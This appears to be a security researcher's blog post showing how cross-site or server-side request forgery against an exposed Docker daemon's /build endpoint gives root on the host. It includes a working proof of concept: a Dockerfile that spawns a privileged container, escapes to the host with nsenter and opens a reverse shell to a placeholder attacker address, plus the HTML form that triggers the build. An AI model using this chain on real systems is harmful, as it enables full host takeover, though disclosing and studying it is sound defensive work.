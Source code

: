 ```yaml
---
title: Exploiting the Docker daemon from an XSS perspective
date: '2025-01-02T00:00:00+01:00'
description: >-
  While reporting exposed docker daemons during an internal pentest, a colleague
  came up with a weird idea : is it possible to hit the Docker API from an XSS ?
---
```


# 

### Finding the right API endpoint

To exploit any API endpoint from an XSS, we first need to fight CORS restrictions. Sadly for us, Docker does not return any [CORS headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS).

This means we should only be able to hit the docker API using `GET` and `POST` requests sent straight from an HTML form.

Looking at the [Docker API documentation](https://docs.docker.com/reference/api/engine/version/v1.45/), pretty much all endpoints require a `Content-Type: application/json` header to be valid. In fact, the API will reject any request without this Content-Type, and it is protected against [Content-Type juggling](https://www.thehacker.recipes/web/inputs/content-type-juggling/).

While crawling through the docs, it seems that `POST /build` is the perfect candidate for our experiment.

[{% embed url="" %}](https://docs.docker.com/reference/api/engine/version/v1.45/#tag/Image/operation/ImageBuild)

The endpoint only expects _query_ parameters, which can easily be sent from an HTML form. It does not require the `application/json` Content-Type either.

The `remote` paremeter is exceptionnally interesting for our use case as well :&#x20;

> **remote** : A Git repository URI or HTTP/HTTPS context URI. If the URI points to a single text file, the file’s contents are placed into a file called `Dockerfile` and the image is built from that file. If the URI points to a tarball, the file is downloaded by the daemon and the contents therein used as the context for the build. If the URI points to a tarball and the `dockerfile` parameter is also specified, there must be a file with the corresponding path inside the tarball.

From here, the goal is to escape the Docker build process to obtain full RCE on the docker host. [We could try to exploit vulnerable Docker versions](https://www.paloaltonetworks.com/blog/prisma-cloud/leaky-vessels-vulnerabilities-container-escape/), but this is already overkill because we already have the full daemon exposed !&#x20;

The `networkmode` parameter is perfect because it will give us full network access and more importantly a "localhost" perspective using `host` mode. This helps us hitting the Docker daemon API without having to handle the container's gateway ourselves.

> **networkmode** : Sets the networking mode for the run commands during build. Supported standard values are: `bridge`, `host`, `none`, and `container:<name|id>`. Any other value is taken as a custom network's name or ID to which this container should connect to.

### Proof-of-concept

* Docker daemon exposed on `127.0.0.1:2375`
* Docker daemon running with root privileeges (usually the default setup)

When built, the following Dockerfile will run a Docker cli against the current host at `127.0.0.1:2375` and create an escape container, given that the daemon has root privileges. The container then sends a basic reverse shell to the attacker's machine :

```docker
FROM alpine:latest
RUN apk add --update docker-cli
RUN docker -H 127.0.0.1:2375 run -i --name pwned --rm --pid=host --privileged ubuntu:latest nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash -c "bash -i >& /dev/tcp/attackerip/port 0>&1"
```

To trigger the build, we prepare a simple HTML POST form against `127.0.0.1:2375/build` and host the Dockerfile at any location that can be reached by the Docker daemon :

```html
<form method="POST" action="http://127.0.0.1:2375/build?&nocache=true&networkmode=host&remote=https://gist.githubusercontent.com/..../Pwned.Dockerfile">
  <input type="submit" value="PwnMe">
</form>
```

Submitting the form will trigger the build and give a root reeverse shell to the Docker host.

![demo](demo.gif)

### SSRF and Server-Side XSS

As you might expect, this attack can be executed in an SSRF scenario or a Server-Side XSS from Puppeteer or Selenium.

As of 01/01/2025, [SSRFMap](https://github.com/swisskyrepo/SSRFmap) does not include a Docker RCE SSRF, which makes me think that this technique is currently undocumented. Maybe in a future PR 😊

### RedTeam considerations

Docker daemons are very rarely exposed on servers, and you will probably never be able to get a "blind" XSS to run against a server.

Regarding workstations, it is not impossible, but I have never seen exposed docker daemons on end-user systems (unix or Docker Desktop). I guess it could work with a high risk / very low success rate on a mass-scale XSS. Meh.

This attack could be exploited against non-local hosts to bridge into restricted environments, but the attacker should already know the IP of an exposed docker daemon. In most cases, getting to know the IP already means you have access to the daemon.

Overall this makes the attack unpractical in a redteam scenario. This attack might only be interesting in a CTF challenge 😜